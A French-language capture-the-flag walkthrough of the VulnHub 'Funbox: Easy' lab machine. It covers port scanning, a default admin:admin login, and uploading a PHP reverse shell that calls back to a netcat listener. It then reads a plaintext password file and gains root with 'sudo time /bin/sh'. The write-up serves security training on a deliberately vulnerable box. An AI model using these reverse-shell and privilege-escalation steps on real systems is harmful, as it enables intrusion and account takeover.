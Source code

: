 ```yaml
---
title: "CTF Funbox: Easy"
date: 2021-04-25
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/funbox-easy,526
parts:
  - title: "CTF Funbox: Easy"
  - title: "CTF Funbox: Script Kiddie"
    href: "ctf-funbox-script-kiddie"
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.58`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir FunboxEasy && cd FunboxEasy`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
Nmap scan report for funbox3.home (192.168.1.58)
Host is up (0.00052s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

On a un serveur **SSH** sur le port **22** , un serveur **Apache 2** sur le port **80** et un serveur **MySQL** sur le port **33060**.

Astuce : vous pouvez ajouter le domaine _funbox3.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.58    funbox3.home
```

Scannons le port **80** avec **Nikto** pour avoir d'eventuelles informations sur la sécurité du serveur.

```bash
$ nikto -h http://$IP -o nikto.txt
+ Server: Apache/2.4.41 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" contains 1 entry which should be manually viewed.
+ Multiple index files found: /index.html, /index.php
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 5abac58e39aeb, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /store/: This might be interesting...
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

Sur la page [/store](http://funbox3.home/store), en bas il y a un lien "Admin login" qui amène sur [/store/admin.php](http://funbox3.home/store/admin.php) et en essayant avec "admin:admin", ça passe du premier coup. En cliquant sur "Add new book", on peut uploader un fichier quelconque. On prépare donc un webshell en PHP.

```bash
$ cp /usr/share/webshells/php/php-reverse-shell.php .
$ vim php-reverse-shell.php
/$ip
```

Puis on lance un serveur **Netcat** sur le port **1234** (ou celui de votre choix) `nc -lnvp 1234`.

En cherchant où les fichiers sont uploadés, on trouve le lien du répertoire [/store/bootstrap/img](http://funbox3.home/store/bootstrap/img). On clique sur notre webshell afin de l'exécuter.

## Pénétration

Dans le terminal avec **Netcat**, la connexion avec le serveur est établi.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

En remontant dans le répertoire "/home", on découvre un utilisateur "tony" avec un fichier "password.txt".

```bash
$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

On tente la connexion SSH.

```bash
$ ssh tony@localhost
tony@localhost's password: yxcvbnmYYY
```

## Escalation

On regarde les privilèges que possèdent cet utilisateur.

```bash
$ sudo -l
User tony may run the following commands on funbox3:
(root) NOPASSWD: /usr/bin/yelp
(root) NOPASSWD: /usr/bin/dmf
(root) NOPASSWD: /usr/bin/whois
(root) NOPASSWD: /usr/bin/rlogin
(root) NOPASSWD: /usr/bin/pkexec
(root) NOPASSWD: /usr/bin/mtr
(root) NOPASSWD: /usr/bin/finger
(root) NOPASSWD: /usr/bin/time
(root) NOPASSWD: /usr/bin/cancel
(root) NOPASSWD:
/root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Sur [GTFOBins](https://gtfobins.github.io/gtfobins/time/#sudo), on regarde quelle commande permet d'utiliser la commande "time" en tant que "sudo" dans le terminal.

```bash
sudo /usr/bin/time /bin/sh
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
id
uid=0(root) gid=0(root) groups=0(root)
```

Dans le répertoire de l'utilisateur "root", on trouve le flag dans le fichier "root.flag" `cat /root/root.flag`.

